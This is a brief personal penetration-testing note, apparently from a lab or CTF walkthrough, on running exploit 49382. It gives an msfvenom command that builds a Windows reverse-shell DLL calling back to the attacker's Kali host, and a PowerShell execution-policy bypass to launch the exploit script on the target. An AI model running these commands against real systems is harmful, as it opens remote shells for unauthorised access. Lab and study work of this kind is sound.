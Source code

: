 ```yaml
---
category: Uncategorized
tags: []
---
```

exploit 49382


Looking at the script we see the need to generate a reverse shell .dll payload. Then execute the .ps1 targeting the .dll.

```bash - kali
sudo msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=$KALI LPORT=445
```

Edit the .ps1 to target the location of the .dll.

![[Pasted image 20220404152727.png]]

Upload both, the dll and ps1 file to target.

```command prompt - windows
powershell.exe -ep bypass .\49382.ps1
```




